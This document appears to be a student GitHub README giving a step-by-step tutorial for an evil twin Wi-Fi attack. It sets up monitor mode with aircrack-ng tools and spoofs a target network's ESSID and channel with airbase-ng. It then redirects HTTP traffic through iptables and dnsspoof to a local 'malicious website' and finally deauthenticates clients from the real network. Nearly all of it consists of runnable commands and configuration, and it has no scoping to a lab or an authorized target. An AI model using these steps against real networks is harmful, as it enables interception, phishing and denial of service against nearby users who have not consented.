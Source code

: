 # How to Setup the Evil Network:
This document outlines the steps we took in order to setup an evil twin access point and cause clients to be redirected to a malicious website.

# TODO
- need to capture the specific device with airodump-ng wlan1mon
- must make sure monitoring wlan1 is not connected to internet
- explain all steps in detail
- add screenshots

# Prerequisites
- kali linux
- may need an external usb wifi adapter

1. Update Device and install dependencies
	```
	sudo apt-get update
	sudo apt-get install dnsmasq dsniff mariadb-server
	git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
	cd setoolkit
	pip3 install  Cython
	pip3 install -r requirements.txt
	python3 setup.py
	```
	
2. Configure dns masq

	```
	mkdir /Desktop/eviltwin
	cd /Desktop/eviltwin
	touch dnsmasq.conf
	```

	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

3. Update NetworkManager.conf  
	`vim /etc/NetworkManager/NetworkManager.conf`

	Add these lines to the end of the file   
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

4. View available internet interfaces  
	`iwconfig`  
	You should see several devices such as eth0, wlan0, lo, etc.
	![network interfaces](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/4.0-iwconfig.png)
	
	Now plug in your usb wireless adapter and run `iwconfig` again. You should see your new network device with the name of something like wlan1 for example. You will need this for the next step.
	![network interfaces 2](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/4.1-iwconfig.png)

5. Enable the wireless adapter  
	`ifconfig wlan1 up`

6. Ensure the wireless card is not connected to internet.  
  	`nmcli con`
	If it shows it is connected in the list, disconnect it from the network that is connected to our adapter with:  
	`nmcli con down <UUID>`

7. Now we will create a monitor interface by putting the wireless adapter into monitor mode.  
	`airmon-ng start wlan1`
	You will likely see a message that says to run `airmon-ng check kill` to kill interfering processes. We can safely ignore this.

8. Look at iwconfig again and we can see our new network monitoring device.  
	`iwconfig`
	It will have a name such as `wlan1mon`.
	![network interfaces](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/8.0-iwconfig.png)

9. Find the device to spoof and record the BSSID (mac address), channel, and ESSID.  
	 - First update known manufacturer mac addresses of routers:  
	 `airodump-ng-oui-update`

	- Then get a list of all the devices broadcasting around you.  
	`airodump-ng wlan1mon`  
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit  
	`ctrl+c`  
	and then copy that line to a text file.
	Copy down the BSSID (MAC address), CH (channel), and ESSID (Wireless access point name) values.
	![airodump](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/9.0-airodump.png)

10. Now for fun, take a look at the devices connected to that network.  
	Enter the BSSID from the previous step in this command:  
	`airodump-ng -d A0:A0:A0:00:00:A0 wlan1mon`
	![devices](https://github.com/tylerhiggins/cs425-backdoor/blob/tutorial/screenshots/10.0-airodump.png)

11. Lets boost our signal strength, to the max legal limit in the US.  
	(Note that not all wireless adapters support this.)
	```
	ifconfig wlan1mon down     
	iw reg set US              
	ifconfig wlan1mon up       
	```
	Again you can check the signal strength with `iwconfig wlan1mon`

12. Start up the evil twin AP (access point)  
	Give the evil twin the same name as the network you are attacking on the same channel.  
	`airbase-ng -e "zzzz" -c 11 wlan1mon`  
	At this point you should be able to see your evil network listed under the available wireless networks on your phone or computer. It will have the same name, but not be password protected.

13. Create an interface to give the evil twin connection to the internet.  
	```
	ifconfig at0
	ifconfig at0 10.0.0.1 up
	```

14. Route all traffic through the at0 interface.  
	The device wlan0, or eth0 in the second line, must be the interface connected to the internet for this to work. It must be a different interface than the monitoring device.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT
	iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
	iptables -t nat -A PREROUTING -j MASQUERADE
	```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

15. Enable port forwarding  
	`echo 1 > /proc/sys/net/ipv4/ip_forward`

16. Enable the evil twin to allocate ip addresses to clients.  
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`  
	Congratulations, you have setup a hotspot for yourself.

17. Now we can start a local Apache webserver that we can redirect traffic to.  
	Place a webpage under  
	`/var/www/html/index.html`  
	Start the server:  
	`sudo /etc/init.d/apache2 start`

18. Your apache server is running locally. Record the servers IP address.  
	Either localhost or the devices ip address can be used.  
	`hostname -I` will give you your devices ip address. Additionally you can use localhost which is `127.0.0.1`

19. Now we can do some dns spoofing.  
	Create a file `config/dnsspoof.conf`  
	Add urls you want to spoof to it. For example the following will redirect anyone trying to visit http://www.example.com to our local apache server.  
	`127.0.0.1	example.com`  
	Note that the ip address and url must be separated by a tab, not spaces.
	You can add as many lines like this as you like for redirecting traffic. Currently only http sites work, not https sites.

20. Now deauthorize clients so they connect to our network instead of their legit network.  
	`aireplay-ng –deauth 0 -a <BSSID> wlan1mon`


# Caveats
Only works for http websites, not https websites 

## Sources
Follow this tutorial: https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/
This one is good too: rootsh3ll.com/evil-twin-attack/





